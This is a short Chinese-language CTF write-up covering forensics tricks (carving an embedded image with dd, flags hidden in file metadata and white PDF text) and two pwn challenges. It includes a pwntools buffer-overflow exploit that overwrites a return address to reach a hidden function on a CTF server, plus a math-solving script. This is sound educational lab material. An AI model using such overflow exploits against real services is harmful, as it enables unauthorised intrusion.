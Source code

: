 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Misc

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

